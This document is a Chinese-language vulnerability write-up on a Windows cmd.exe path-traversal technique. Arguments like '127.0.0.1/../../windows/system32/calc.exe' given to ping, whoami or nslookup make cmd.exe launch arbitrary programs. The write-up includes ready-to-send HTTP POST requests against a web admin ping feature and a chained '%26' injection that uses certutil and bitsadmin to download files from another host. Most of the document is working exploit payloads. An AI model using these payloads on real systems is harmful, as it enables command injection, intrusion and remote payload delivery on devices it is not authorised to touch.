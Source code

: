 ## 利用方式
```shell
cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_Me8Xy2FL.png)

当然也不知ping命令还有一些也可以，例如下列

```shell
cmd.exe /c "whoami 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe" 
cmd.exe /c "nslookup 127.0.0.1/../../../../../../../../../../../../../../../windows/system32/calc.exe"
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_JXcHyMw3.png)



## 可能的使用场景
### 一些基于windows 系统的设备 web管理页面
**我们经常遇到一些基于Windows系统的设备，在其管理页面上具备ping功能，其目的是为了进行连通性测试或者资产发现等等。当然一些网站可能也有类似的功能。由于开发者安全意识的提高，以及SDL的推广落地，直接进行OS Command Injection的可能性非常低。利用这个方法解和上传漏洞（如果存在的话可以执行任何代码）**

windows 客户端测试不通过，在windows server 2012 测试如下
```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

ipaddress=127.0.0.1/../../../../../../../windows/system32/ipconfig.exe
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_15_a9n1zYCl.png)



### 远程下载文件
这个比较鸡肋，由于路径穿越执行命令是无法带参数，带参数就会报错
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_fXgq5zKT.png)

但是在第第一个命令后带上&，两个命令一起执行，那么就能执行成功后面的命令
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_16_GVq5rZty.png)

在这里将上面代码的`escapeshellcmd`函数去掉，添加%26，执行文件下载的命令

```http
POST /ping.php HTTP/1.1
Host: 192.168.93.143
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

ipaddress=127.0.0.1/../../../../../../../windows/system32/calc%26certutil.exe /urlcache /split /f http://192.168.200.76:8080/test.txt C:\\test.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_q7ap1oQB.png)

![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_EY3cAMrv.png)



```shell
bitsadmin /transfer /myDownload /download /priority normal "http://192.168.200.76:8888/test.txt" c:\22.txt
```
![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_17_BFCaxd3T.png)



![image.png](./Windows CMD.exe 执行任意代码、命令、程序的漏洞.assets/2023_05_19_10_24_18_8yzxgOGP.png)

